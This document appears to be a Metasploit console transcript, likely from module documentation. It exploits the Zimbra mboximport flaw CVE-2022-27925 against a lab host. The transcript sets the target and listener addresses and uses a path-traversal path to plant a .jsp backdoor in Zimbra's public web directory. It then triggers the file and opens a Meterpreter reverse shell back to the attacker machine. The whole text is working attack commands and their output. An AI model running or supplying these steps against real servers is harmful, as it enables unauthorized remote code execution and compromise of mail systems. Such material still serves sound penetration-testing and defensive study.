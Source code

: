 ```
msf6 > use exploit/linux/http/zimbra_mboximport_cve_2022_27925
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > set RHOSTS 10.0.0.166
RHOSTS => 10.0.0.166
msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > set LHOST 10.0.0.146
LHOST => 10.0.0.146
msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > show options

Module options (exploit/linux/http/zimbra_mboximport_cve_2022_27925):

   Name             Current Setting                                                                   Required  Description
   ----             ---------------                                                                   --------  -----------
   Proxies                                                                                            no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS           10.0.0.166                                                                        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT            7071                                                                              yes       The target port (TCP)
   SSL              true                                                                              no        Negotiate SSL/TLS for outgoing connections
   TARGET_FILENAME                                                                                    no        The filename to write in the target directory; should have a .jsp extension (default: <random>.jsp).
   TARGET_PATH      ../../../../../../../../../../../../opt/zimbra/jetty_base/webapps/zimbra/public/  yes       The location the payload should extract to (can, and should, contain path traversal characters - "../../").
   TARGET_USERNAME  admin                                                                             yes       The target user, must be valid on the Zimbra server
   VHOST                                                                                              no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.0.0.146       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Zimbra Collaboration Suite

msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > exploit

[*] Started reverse TCP handler on 10.0.0.146:4444
[*] Encoding the payload as a .jsp file
[*] Target filename: ../../../../../../../../../../../../opt/zimbra/jetty_base/webapps/zimbra/public/nkxj.jsp
[*] Sending POST request with ZIP file
[*] Trying to trigger the backdoor @ public/nkxj.jsp
[*] Sending stage (3020772 bytes) to 10.0.0.166
[+] Successfully triggered the payload
[+] Deleted ../../../../../../../../../../../../opt/zimbra/jetty_base/webapps/zimbra/public/nkxj.jsp
[*] Meterpreter session 1 opened (10.0.0.146:4444 -> 10.0.0.166:48640) at 2022-08-22 11:08:19 -0700

```